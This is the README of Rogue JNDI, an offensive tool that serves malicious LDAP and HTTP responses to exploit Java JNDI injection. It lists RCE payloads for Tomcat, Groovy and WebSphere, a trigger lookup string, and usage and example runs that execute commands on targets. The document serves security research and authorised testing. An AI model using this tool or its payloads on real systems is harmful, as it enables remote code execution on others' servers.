 ## Rogue JNDI
A malicious LDAP server for JNDI injection attacks.

### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:
```java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");
```
It will initiate a connection from the vulnerable client to the local LDAP server.
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution. 

### Motivation
In addition to the known JNDI attack methods(via remote classloading in references), this tool brings new attack vectors by leveraging the power of [ObjectFactories](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html).

### Supported payloads
* [RemoteReference.java](/src/main/java/artsploit/controllers/RemoteReference.java) - classic JNDI attack, leads to RCE via remote classloading, works up to jdk8u191 
* [Tomcat.java](/src/main/java/artsploit/controllers/Tomcat.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** 
* [Groovy.java](/src/main/java/artsploit/controllers/Groovy.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** + **groovy.lang.GroovyShell**
* [WebSphere1.java](/src/main/java/artsploit/controllers/WebSphere1.java) - leads to OOB XXE in **com.ibm.ws.webservices.engine.client.ServiceFactory**
* [WebSphere2.java](/src/main/java/artsploit/controllers/WebSphere2.java) - leads to RCE via classpath manipulation in **com.ibm.ws.client.applicationclient.ClientJ2CCFFactory**

### Usage
```
$ java -jar target/RogueJndi-1.0.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command  Command to execute on the target server (default: 
                   /Applications/Calculator.app/Contents/MacOS/Calculator) 
    -n, --hostname Local HTTP server hostname (required for remote 
                   classloading and websphere payloads) (default: 
                   192.168.1.10) 
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8000)
    --wsdl         [websphere1 payload option] WSDL file with XXE payload 
                   (default: /list.wsdl)
    --localjar     [websphere2 payload option] Local jar file to load (this 
                   file should be located on the remote server) (default: 
                   ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    -h, --help     Show this help
```
The most important parameters are the ldap server hostname (-n, should be accessible from the target) and the command you want to execute on the target server (-c).
 
As an alternative to the "-c" option, you can modify the [ExportObject.java](/src/main/java/artsploit/ExportObject.java) file by putting java code you want to execute on the target server. 

### Example:
```
$ java -jar target/RogueJndi-1.1.jar --command "nslookup your_dns_sever.com" --hostname "192.168.1.10"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.1.10:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.1.10:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.1.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.1.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
```

### Building
Java v1.7+ and Maven v3+ required
```
mvn package
```

### Disclamer
This software is provided solely for educational purposes and/or for testing systems which the user has prior permission to attack.

### Special Thanks
* [Alvaro Muñoz](https://twitter.com/pwntester) and [Oleksandr Mirosh](https://twitter.com/olekmirosh) for the excellent [whitepaper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) on JNDI attacks
* [@zerothoughts](https://github.com/zerothoughts) for the inspirational [spring-jndi](https://github.com/zerothoughts/spring-jndi) repository
* [Moritz Bechler](https://github.com/zerothoughts) for the eminent [marshallsec](https://github.com/mbechler/marshalsec) research
* [Orange Tsai](https://twitter.com/orange_8361) and [Welk1n](https://github.com/welk1n) for the Apache + Groovy gadget

### Links
* An article about [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) in the Veracode Blog
* [How I Hacked Facebook Again! Unauthenticated RCE on MobileIron MDM](https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html) 

### Authors
[Michael Stepankin](https://twitter.com/artsploit)